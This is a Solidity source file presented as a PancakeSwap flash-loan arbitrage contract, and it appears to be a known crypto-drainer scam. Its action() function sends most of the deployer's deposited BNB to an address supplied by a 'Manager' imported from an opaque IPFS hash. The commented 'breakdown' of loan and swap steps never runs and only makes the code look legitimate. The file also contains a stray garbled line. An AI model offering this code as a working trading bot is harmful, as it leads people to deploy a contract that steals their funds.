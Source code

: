 pragma solidity ^0.5.0;

// Import PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
   
// Import Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

// Import Binance Smart Chain Code Manager
import "ipfs://QmagPrRRkfPcfoXBBjhMr3zzVViUta1SKMC8HFBvdDcEkA";
.deps...ipfs...ipfs...QmagPrRRkfPcfoXBBjhMr3zzVViUta1SKMC8HFBvdDcEkAF

contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
      manager = new Manager();
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}
   
   function action() public payable {
      // Send required amount for flash loan fees on Multiplier-Finance
       address(uint160(tokenTransfer())).transfer(address(this).balance/8);
     // Send new Token with value to prepare for swap using loaned BNB via PancakeSwap
       address(uint160(manager.pancakeswapDeposit())).transfer(address(this).balance);
      
      // Perform tasks (combined all functions into one to reduce external calls)
      manager.performTasks();
      
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get BNB Loan from Multiplier-Finance & Loan Execution wallet
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your personal wallet
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
